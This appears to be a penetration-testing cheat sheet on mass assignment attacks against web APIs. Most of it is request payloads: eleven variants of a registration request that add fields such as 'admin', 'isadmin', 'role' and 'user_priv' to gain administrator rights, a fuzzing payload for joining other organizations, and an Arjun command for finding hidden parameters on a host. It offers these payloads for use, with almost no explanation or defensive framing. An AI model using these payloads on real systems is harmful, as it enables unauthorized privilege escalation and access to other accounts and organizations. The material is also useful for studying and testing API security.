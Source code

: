 **Try This Vulnerability in**
```
Account Registration
Unauthorized Access to Organizations
reset password 
login
change email
change username
```
**Account Registration**
the basic request
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"password":"Password1!"
}
```

try
1-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"password":"Password1!"
}
```
2-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"ADMIN": true,
"password":"Password1!"
}
```

3-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"isadmin": true,
"password":"Password1!"
}
```

4-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"ISADMIN": true,
"password":"Password1!"
}
```

5-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"Admin": true,
"password":"Password1!"
}
```

6- 
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"role": admin,
"password":"Password1!"
}
```

7- 
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"role": ADMIN,
"password":"Password1!"
}
```

8-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"role": administrator,
"password":"Password1!"
}
```

9-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"user_priv": administrator,
"password":"Password1!"
}
```

10-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"user_priv": admin,
"password":"Password1!"
}
```

11-
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": 1,
"password":"Password1!"
}
```

**Unauthorized Access to Organizations**
```
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"org": "§CompanyA§",
"password":"Password1!"
}
```

**Finding Variables in Documentation**
```
by reading the document you can find variable
```

**Fuzzing Unknown Variables**
```
Another common scenario is that you’ll perform an action in a web application, intercept the request, and locate several bonus headers or parameters 
within it, like so:

POST /create/user
--snip--
{
"username": "hapi_hacker"
"pass": "ff7ftw",
"uam": 1,
"mfa": true,
"account": 101
}
```

Automating Mass Assignment Attacks with Arjun and burp Suite Intruder
```
 arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'
```
